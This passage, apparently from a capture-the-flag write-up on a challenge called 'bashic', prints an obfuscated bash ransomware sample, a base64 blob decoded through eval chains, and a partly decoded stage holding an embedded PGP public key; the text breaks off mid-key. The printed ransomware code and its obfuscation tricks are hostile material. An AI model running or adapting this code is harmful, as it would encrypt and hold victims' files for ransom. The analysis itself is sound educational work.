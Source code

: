 ```
6t2MMVlV6tUYkh0Vrp1VXFFdHRmevZVV4N3VNJTWHVmR5U1YyRmaUJEZERFeNFDVDpkaWBDaqN2Qat2Q4tmVkZXNrFlRoNDVMpkMUtmTuNlQKVVT0MmeTtmRsJlWS1mYNp
EWXhXRsFmVxU1VaxWVT5WOD5ESCpnYGpVVSBVNF5ETsV0TUJFVTRzZE9ENVd0Tx82dNBzYU5kcJ5GZ5d3VihXVz0EdCRFZvJFSjZEaXRGcahkV2gmRi1mRwE2dZ1WUwJEW
OpmSrNmM4UkT2p1VZ9EZIdVWONDZzIEWS9mRWNGMnRlVth3aNt0bI1EW0l3UrhWRkZXSuRWU41mVHljMMhmWGR1b01WU6h2ROVFZHNVbwJTVL5UbOZVODNmeWVUVHpFWZV
jTVFlUsNjWPxGVjBDazYVMNVVZUx2MVlGbsNEeS1WVWhHMWlFeVJmQOhVYtx2VNdXUwQmd0ADTTZ0MjNHZV1EaGJjWzYFRONTT6RmWSh1VUZURa9kSqVlcFhVUpJEWaREb
IVmesBTTuZkeZdFbFJGawFlTJh3aXVDbXNlVOxGVwUVVjpXSW10cONDZSx2aUVkT6ZldBRUYyg2VTJTREJFNvZ0YHZlVPtGdH1Uc1IDTVp1aSRDbYdVY0tmWZRGWZVkRw4
EMjR1YLl1MOllTFNWNwdkWNlTeNlnTU50VwVUT0kjMLhkTWd1MnpWT6RWMWBlWrZVMFNTU2lEbiJDdH9Uc0lWYEhWRhRTRG5EdGVkTuxmVlBDa6tkMOR1UpZ1aDNDcyE1R
kBjY5NHMN1EetJVWaBTVsZURPdXV6p1MsNjUIZEbR5kWwMWRshVY1JkbW5kRuFWYOpmV2YVVSpEbEJFWSVVUFpEMjZXRUlVUktWUPRWVVRHcnNEdwMFT0BTeTRUOFR1QCN
1VGRXRJREbFR1QWZUVnFUMSFlQpRlSkVlUDFzUMRHMTxkI9oGZPl3MLdzb0UmV5pGb0lgC7BSKo0UW6RnYzR1Q2YkTYF0M3gHSNZUdKg2chJ2LulmYvEyI
' | r";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""
x=$(eval "$Hc2$w$c$rQW$d$s$w$b$Hc2$v$xZp$f$w$V9z$rQW$L$U$xZp")
eval "$N0q$x$Hc2$rQW"
```
{Authors note: I regret nothing}

Some more obfuscation to go through, so we simply replaced the values in the eval section to read what was being evaluated. Decoded content of the decoded content (We can see the ransomnote!):

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ cat ransomware.sh                  
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""

x=$(eval "echo'#!/bin/bash
uFMHx73AXNF6CTsbtzYM() {
        tljyVe4o7K3yOdj="LS0tLS1CRUdJTiBQR1AgUFVCTElDIEtFWSBCTE9DSy0tLS0tCgptUUdOQkdQYTEvc0JEQURXRDlJRUV6VjNaanFNVnBuaXlEc0ZNQlFHR3l3ZzUwO
        EFlU0ZYRmxMM0syb0dGQ2p3CkViSTN2Kzh0eVlnNEFtNFE4aEhDaitqOGt2blIvQ3E1VkZPV1dzMjg3WVNHK294MEpWNTNyMy9MZGp5cENYN3YKcTc0N0FEYXdYZktaWXl
        4RkZUL25qMGtkOVVGcFo4RDE2SWh2aDAvVzNETklRd3NsMVIzcUU0TlNVSWl5WkxINQphbElWYzFnM0lzeHlDZXBiQXErUjJOZEFTWXRZdzM3NDV3Z2FhMUdsc3FSL04vd
        0QwMWlmaXNBbUxYV0xVUmRxClliU3lTeUM1V3h0cTlOZ3lRQUN5YXZGUEVzcC9VNmNKU2pmSGdUNGhzQmtoTFZhL29GVmxQdnIvdEhkSytXMHoKMkxmVTg0cVFoRXB3d3N
        YWHdOYWZvNE82ckJjNXBpQmYwa0FmbFh6VHZpdWhFcHRodTBtM3UxbWwydnIrNTc0Mwo1OGU4ODg4STRTOElLNE5PRUZFbzBHNC9nSUlZWU1ValExWXJMbmRZRlFkSzc4M
        UJBSnNkT2JLT3hFQk5vdVkxCkZCcjh0VjJCT1MxTDdBTjdrcU9FeGY2MWsxUVozdGtQWWZkWHdaKzVUL3kzYW5BcS8xQmtvUlljcUJwak9XMEsKUXlRYkU3bWNHNTdqNW0
        4QUVRRUFBYlFkVW1GdWMyOXRTMlY1SUR4eVlXNXpiMjFBYUdGamF5NXNiMk5oYkQ2SgpBYzRFRXdFS0FEZ1dJUVFWWjZNdzBtTlFqZklJQUVqL1J3MGJrcFJpVmdVQ1k5c
        lgrd0liQXdVTENRZ0hBZ1lWCkNna0lDd0lFRmdJREFRSWVBUUlYZ0FBS0NSRC9SdzBia3BSaVZ1YjBDLzQxeFV6c24vZzI1Njdad3BZdlhEeDcKaklHK2RIV0FhYndFUUZ
        Za2J4VEN1a3FWbXhvQzhJZ0U4a0lQdDhvZ2V3SnI5d3dFY2VheTFkZTUxaDZuTFd0TgpFRUVDMEVQck1UQnAzVkhBOGgrbG1vZXB3NXNXNzRJeERkbTNJVU9WSmluRENlY
        mRxZGZXMnAwZmVwSjArZGl1Clh0cnE2RVNxblUyMFlNK2t4SlM4TkJYb2FlUkNISnRWLzg5ZnZYSWJoT285dmpsdS9YWHUrWTFpR1gyVHN3RFkKTmFheFc5Ymlrb2xHRzd
        XYkpUYk5XSEx2VTY4aGxsbWtaMDB6a0lSNHc2alc0TUJkTkZ6VFVSbEJ4MWlYbGw1SwpUQWVnWC9SdFZmeSt0aEdrbFJFQ3BPT1dpY1dCeFdyeTFKSW5UR1BtZnpKaEZWO
        U5WU0ROWEdteGZ1YVRXZUhICnRDMG9FMkxKZVlyakRNV0xnR0VXTERMYlhDdURtZXo1M0dwSjN2MHlGckplNGkyZVI1Z0x1OG9UNWlaV0xDNnYKMzdQeVc3bXYyeHZQNGN
        lZExZdk1CMVZ1UlBuSW01T1U2UjJtelNHQS8zNnBKWHhYU3RjY01JamJ5dDNUbFNxbAordHJyQ2ZHUzNjMzRzVmgrN1RNUHRHZTdCbHR4ZjI5UzhMd1dudUt1R00rNUFZM
        EVZOXJYK3dFTUFLNW0vdm1TCmJTb3p0cXFzV1dpNTN1UFJ3UWxqejZHd0g5emhDbENzRW4xZk9QRktZc0JLcmpFQXpsRUZ2VTh3UGhiVm5EdFAKNERtRFp0Wk9UN3pxSjF
        seUdXUnliOEdjSnpHWXYvRDJVcnZaMVZCUHBoUlVNU2lQZUljNnk0ckI5Vkh5ZjVRNApwdmFub1hlWVkyYVd4S09zdUl2aUJDRkJWalE0Q0dqbUlBMkZOdWFwZEFnSFZJR
```